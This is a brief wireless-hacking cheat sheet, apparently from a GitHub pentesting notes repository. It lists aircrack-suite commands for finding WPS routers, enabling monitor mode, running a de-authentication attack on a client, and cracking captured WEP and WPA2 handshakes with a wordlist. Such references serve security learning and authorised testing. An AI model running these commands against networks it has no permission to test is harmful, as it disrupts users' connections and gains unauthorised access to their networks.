 ## Hacking wireless cheat sheet

### Discover the AP, ESSID, and BSSID of a device router with WPS enabled

```sh
wash -i [INTERFACE]
```

### airmon-ng

#### Kill any conflicting processes

```sh
airmon-ng check kill
```

#### Set monitor mode to an interface (create monitor mode virtualized adapter)

```sh
airmon-ng start [INTERFACE]
```

#### Wizard

```sh
airoscript-ng
```

#### De-authentication attack
De-authenticate and desassociate a client.

```sh
aireplay-ng --deauth 25 -h [TARGET MAC] -b [AP MAC] [INTERFACE]
```

#### Crack WEP password

```sh
aircrack-ng 'wireless-data-01.cap'
```

#### Crack WPA2 password

```sh
aircrack-ng -a2 -b [TARGET BSSID] -w dictionary.txt 'wireless-data-01.cap'
```
-a: Technique used to crack the handshake. 2=WPA technique.

-b: BSSID of the target router.

-w: Wordlist.


[<- Back to index](README.md)

---
## License

© 2021 [javierizquierdovera.com](https://javierizquierdovera.com)

Licensed under the [Apache License, Version 2.0](https://www.apache.org/licenses/LICENSE-2.0) ([`LICENSE-APACHE`](LICENSE-APACHE)) or the [MIT license](https://opensource.org/licenses/MIT) ([`LICENSE-MIT`](LICENSE-MIT)), at your option.

`SPDX-License-Identifier: (Apache-2.0 OR MIT)`
